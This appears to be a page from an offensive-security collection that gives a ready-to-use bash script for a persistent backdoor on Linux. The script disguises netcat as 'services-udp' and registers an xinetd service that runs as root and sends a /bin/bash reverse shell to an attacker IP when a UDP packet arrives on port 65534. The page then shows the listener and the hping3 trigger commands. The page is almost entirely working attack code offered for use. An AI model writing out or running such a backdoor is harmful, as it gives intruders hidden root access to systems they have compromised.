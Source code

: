 # Xinetd UDP Portknock Backdoor

Make sure that you modify the `ATTACKER-IP` and `PORT` in the script

```sh
#!/bin/bash

cp /bin/nc /bin/services-udp
echo "Service services-udp" > /etc/xinetd.d/services-udp
echo "{" >> /etc/xinetd.d/services-udp
echo "			server = /bin/services-udp" >> /etc/xinetd.d/services-udp
echo "			server_args = <ATTACKER-IP> <PORT> -e /bin/bash" >> /etc/xinetd.d/services-udp
echo "			protocaol = udp" >> /etc/xinetd.d/services-udp
echo "			user = root" >> /etc/xinetd.d/services-udp
echo "			socket_type = dgram" >> /etc/xinetd.d/services-udp
echo "			wait = yes" >> /etc/xinetd.d/services-udp
echo "			flags = IPv4" >> /etc/xinetd.d/services-udp
echo "}" >> /etc/xinetd.d/services-udp

echo "services-udp	65534/udp 	# services-udp" >> /etc/services

/etc/init.d/xinetd stop
/etc/init.d/xinetd start
```


**On target run script**

```sh
./xinetd_server.sh
```

On attack box: start listenner and send UDP packet

```sh
nc -nlvp 4444
```

```sh
sudo hping3 -2 -c 1 <TARGET-IP> -p 65534
```
